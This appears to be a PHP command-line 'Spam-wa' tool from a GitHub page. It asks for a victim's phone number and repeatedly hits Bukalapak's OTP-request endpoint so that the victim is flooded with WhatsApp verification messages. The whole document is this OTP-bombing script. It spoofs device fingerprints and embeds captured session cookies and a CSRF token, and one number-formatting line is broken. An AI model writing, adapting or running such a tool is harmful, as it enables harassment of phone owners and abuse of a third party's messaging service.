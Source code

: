 # Spam-wa_Mr.Anony
<?php
echo "COPYRIGHT : SGB TEAM\n\n";
echo "Nomor Target?\nInput : ";
$nomer = trim(fgets(STDIN));
if(strlen($nomer)==11){
	$nomer = str_replace("0","62".$nomer);
}elseif(strlen($nomer)>12){
	$nomer = str_replace("62","0",$nomer);
}
echo "Target: $nomer (y/n)";
$cek = trim(fgets(STDIN));
if($cek=="n") exit("Stopped!\n");
echo "Jumlah?\nInput : ";
$jumlah = trim(fgets(STDIN));
for($a=0;$a<$jumlah;$a++) {
	$rand1 = md5(rand(12345678,98765432));
	$rand2 = md5(rand(12345678,98765432));
	$rand = array($rand1,$rand2);
	$rand3 = md5($rand[rand(1,2)]);
	$config['headers'] = explode("\n", "Host: m.bukalapak.com
Connection: keep-alive
Content-Length: 134
Origin: https://m.bukalapak.com
X-CSRF-Token: uYUfi93g92mZboBVB4UMwYInorBNOgyYEAbPUTikHht+xseF8BFUgg9qSgQWA9MRy7eL8G/SnbYUGg0JRM1fjw==
User-Agent: Mozilla/5.0 (Linux; Android 7.1.2; Redmi 4X Build/N2G47H) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/68.0.3440.91 Mobile Safari/537.36
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Accept: */*
X-Requested-With: XMLHttpRequest
Save-Data: on
Referer: https://m.bukalapak.com/register?from=home_mobile
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,id;q=0.8
Cookie: identity=".$rand1."; browser_id=".$rand2."; _ga=GA1.2.1024758930.1531960985; _vwo_uuid_v2=DE8E70E7E9A8960F05F20FE0ACE87643B|378e4a2f30c36053c1cb833e89ecbc2e; _gid=GA1.2.622427606.1533988422; scs=%7B%22t%22%3A1%7D; spUID=15339884253603c43b2de12.c5b45553; session_id=e95e7511997432af179935abfce90320; __auc=3eed305416528d5f584187b45b2; G_ENABLED_IDPS=google; track_register=true; affiliate_landing_visit=true; mp_51467a440ff602e0c13d513c36387ea8_mixpanel=%7B%22distinct_id%22%3A%20%22164affd88ae1d-0791dbbd558a18-1f20130c-38400-164affd88aff4%22%2C%22utm_source%22%3A%20%22hasoffers-1851%22%2C%22utm_medium%22%3A%20%22affiliate%22%2C%22utm_campaign%22%3A%20%2215%22%2C%22%24initial_referrer%22%3A%20%22%24direct%22%2C%22%24initial_referring_domain%22%3A%20%22%24direct%22%7D; ins-gaSSId=cdd66ffd-18ce-a176-a3c3-26f0ac9ec000_1534027025; lskjfewjrh34ghj23brjh234=elBsSkNBb3VKS3hzZSttTnNKTm5VNk1pWmtzV1A1YldKRm1majAzRFdsSUJtcDJJV0psL0pnOFlBamtJU1NBa1Y2czlQdjZrNlFURDNiRmZqQmNRRXRyeWRTbGV5QUdpQnZjV3JocEc3ak9QeHpWSlpRNTE4eFgzR2FieDVnc2dWaUVoZzVzMEJlMVZwM2NKWk1LaXVwQTZuOXBVR01TUUJ4ejc4MW5MTU5taGYwZ2M0bFdwM05KYy9IcTh3bThsd3dzbSt4bHd4WG9NSklrcHJtT0dHUURURVQ5YVoyb0hLQ3dyUC9NZ2V6UUNFYmVGbE84REtqOHZlKzBZUGtiRS0tV3pMamNPNDhKT1FoZ202Q1BkNUJ5dz09--5a445aefe0c06b736c22e9f359ee3b7273058175; insdrSV=32; _td=7e03facb-a77c-4ce7-8b83-2427781c78c7");
	global $config;
	$ar = http_build_query(array(
				'feature' => 'phone_registration',
				'feature_tag' => '',
				'manual_phone' => $nomer,
				'device_fingerprint' => $rand3,
				'channel' => 'WhatsApp'
                             )
                           );
	$ch = curl_init();
	curl_setopt($ch, CURLOPT_URL, "https://m.bukalapak.com/trusted_devices/otp_request");
	curl_setopt($ch, CURLOPT_SSL_VERIFYPEER, false);
	curl_setopt($ch, CURLOPT_FOLLOWLOCATION, true);
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
	curl_setopt($ch, CURLOPT_HEADER, false);
	curl_setopt($ch, CURLOPT_HTTPHEADER, $config['headers']);
	curl_setopt($ch, CURLOPT_POST, 1);
	curl_setopt($ch, CURLOPT_POSTFIELDS, $ar);
	$asw = curl_exec($ch);
	curl_close($ch);
	print $a.$nomer." [Sending]\n";
}0
